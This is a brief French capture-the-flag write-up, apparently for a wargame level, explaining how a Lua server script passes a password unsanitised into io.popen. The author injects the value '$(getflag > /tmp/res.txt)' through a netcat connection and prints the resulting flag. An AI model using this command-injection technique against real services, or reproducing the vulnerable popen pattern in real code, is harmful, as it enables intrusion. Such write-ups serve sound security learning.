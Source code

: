 Dans ce niveau on a un fichier ```level11.lua```

En regardant ce qui se passe on voit qu'il requiere un mdp

On utilise ```nc 127.0.0.1 5151``` pour acceder au port ou ecoute le server cree par le script

Il existe une vulnerabilite dans le code ```prog = io.popen("echo "..pass.." | sha1sum", "r")```

On lui passe la commande ```$(getflag > /tmp/res.txt)```

Et avec ```cat /tmp/res.txt``` on obtient le flag ```fa6v5ateaw21peobuub8ipe6s```